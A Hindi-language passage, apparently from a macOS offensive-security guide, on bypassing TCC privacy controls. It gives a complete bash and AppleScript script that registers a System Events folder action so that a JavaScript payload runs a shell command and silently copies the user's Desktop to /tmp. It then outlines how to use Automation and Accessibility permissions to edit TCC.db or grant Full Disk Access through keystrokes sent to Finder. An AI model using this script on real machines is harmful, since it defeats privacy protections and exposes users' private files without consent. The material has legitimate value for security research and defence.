 **सिस्टम इवेंट्स फ़ोल्डर क्रियाएँ बना सकते हैं, और फ़ोल्डर क्रियाएँ कुछ TCC फ़ोल्डरों (डेस्कटॉप, दस्तावेज़ और डाउनलोड) तक पहुँच सकती हैं,** इसलिए निम्नलिखित स्क्रिप्ट का उपयोग इस व्यवहार का दुरुपयोग करने के लिए किया जा सकता है:
```bash
# Create script to execute with the action
cat > "/tmp/script.js" <<EOD
var app = Application.currentApplication();
app.includeStandardAdditions = true;
app.doShellScript("cp -r $HOME/Desktop /tmp/desktop");
EOD

osacompile -l JavaScript -o "$HOME/Library/Scripts/Folder Action Scripts/script.scpt" "/tmp/script.js"

# Create folder action with System Events in "$HOME/Desktop"
osascript <<EOD
tell application "System Events"
-- Ensure Folder Actions are enabled
set folder actions enabled to true

-- Define the path to the folder and the script
set homeFolder to path to home folder as text
set folderPath to homeFolder & "Desktop"
set scriptPath to homeFolder & "Library:Scripts:Folder Action Scripts:script.scpt"

-- Create or get the Folder Action for the Desktop
if not (exists folder action folderPath) then
make new folder action at end of folder actions with properties {name:folderPath, path:folderPath}
end if
set myFolderAction to folder action folderPath

-- Attach the script to the Folder Action
if not (exists script scriptPath of myFolderAction) then
make new script at end of scripts of myFolderAction with properties {name:scriptPath, path:scriptPath}
end if

-- Enable the Folder Action and the script
enable myFolderAction
end tell
EOD

# File operations in the folder should trigger the Folder Action
touch "$HOME/Desktop/file"
rm "$HOME/Desktop/file"
```
### Automation (SE) + Accessibility (**`kTCCServicePostEvent`|**`kTCCServiceAccessibility`**)** to FDA\*

**`System Events`** पर Automation + Accessibility (**`kTCCServicePostEvent`**) **प्रक्रियाओं** को **कीस्ट्रोक भेजने** की अनुमति देता है। इस तरह आप Finder का दुरुपयोग करके उपयोगकर्ताओं का TCC.db बदल सकते हैं या किसी मनचाही ऐप को FDA दे सकते हैं (हालांकि इसके लिए पासवर्ड मांगा जा सकता है)।

